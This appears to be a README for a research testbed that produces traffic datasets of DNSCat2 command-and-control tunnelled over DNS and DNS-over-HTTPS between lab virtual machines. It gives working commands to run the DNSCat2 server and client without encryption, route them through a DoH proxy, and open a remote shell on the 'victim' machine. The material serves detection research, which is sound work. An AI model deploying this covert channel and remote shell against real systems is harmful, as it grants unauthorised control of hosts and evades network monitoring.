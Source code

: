 # Installation of the testbed network

Please, refer to the PDF file named: "_DNSCat2_testbed_network_configuration.pdf_".

# Manual usage 

**If you are using "Internal Network" option in VirtualBox, connect during few seconds VMs on Internet before return in Internal Network configuration**. It seems to be needed on each first run of the DoH server machine.

## DNSCat2 Server

Run the DNSCat2 server side before the client side:
```
$ cd dnscat2/server/
$ sudo ruby ./dnscat2.rb [domain] --security=open 
```

The option _--security=open_ allow to not encrypt all the DNS request.

## DoH proxy (if you want DoH communication, else go directly to next point about client)

Run the proxy:

```
$ su
# conda activate DoH_proxyConda
# doh-stub --listen-address [addressListeningHost] --listen-port [listeningPort] --domain [domainNameResolver] --cafile [pathToCertificateFile] 
```

## DNSCat2 Client

```
$ cd dnscat2/client/
$ ./dnscat --no-encryption --dns=server=[address_where_to_send_dns_requests],port=[PORT],domain=[domain]
```

The address of the server can be the address of the machine where the proxy is or the one of the machine of the server side of DNSCat2.



## How to execute commands in the shell of the victim

Since DNSCat2 is using windows like Metasploit to manage the communications, when the communication is established, on the server side, we can go to a window with this command:

```
> window -i 1
```

If no other communication has been established, the first communication is in the window 1 like we did.

In order to use the shell prompt of the victim (client), just execute `> shell`. Then, change to be on the window that has just been created: `> window -i 2`.

Then, you can execute shell commands !


# Automated production of dataset with DNSCat2

## C&C communication process with DNSCat2 and DoH (automated)

![Testbed network](DNSCat2_testbed_network.png)

All dataset production with DNSCat2 is managed from the Debian Controller machine. We run a python script that contacts the Debian Client and Debian Server machines via SSH using their domain names.

As indicated in the DNSCat2 Github documentation (https://github.com/iagox86/dnscat2), we first need to run the server side of DNSCat2. This is run as a background task by using the _dtach_ library, in order to not interrupt the Python script execution. We can communicate with this server side via a socket we've created (see code). The server side of DNSCat2 has a window system like Metasploit.<br>
Next, we can launch the DoH proxy called "_doh-proxy_" (https://github.com/facebookarchive/doh-proxy). Thanks to the certificate passed as a parameter downloaded from the DoH server machine after its configuration, the proxy connects to the Local DoH resolver. It listens for requests on the indicated port (5553) and retransmits them in HTTPS to the Local DoH resolver. **It's imperative to launch a connection within about 20 seconds, otherwise the connection between the proxy and the Local DoH resolver will be closed. If this exceeds the time limit, the process has to be killed and restarted**.<br>
Finally, the client side of DNSCat2 is runned, specifying the public IP address of the Debian Client machine and port destination (5553) to send DNS requests to the DoH proxy (the proxy doesn't seem to work when the loopback address and port 5553 are mentioned). If all goes well, communication is established and packets are exchanged every second or so.

C&C commands are sent using the Debian Controller's python code, which, through SSH, sends the commands to be executed to the DNSCat2 server side using the _dtach_ library and the socket created earlier. You then choose which window to use (usually window 1, unless there's a new connection, in which case it's the window with the incremented number). You can then either execute commands specific to DNSCat2 or request a shell which will open in window 2 if there are no other existing windows.

All the traffic is captured by the victim machine to have the traffic between the victim and the local DoH resolver.

## Running the process

- Pay attention that all the machines can communicate with each other in the same network (NAT network)
- Put the code files needed on the Controller machine:
    - constants.py
    - dnscat2_main.py
    - local_dnscat2_scenarios.json
    - utils.py
- Execute the Python script file "_dnscat2_main.py_" if you want to run the process with: `$ python dnscat2_main.py`
- Kill the process by using "_CTRL+C_" and the process has been coded to end when a communication is ended in order to not disturb the capture of traffic and have problems.

Please, refer to the code if you want to modify which C&C commands to execute and how much C&C commands to execute.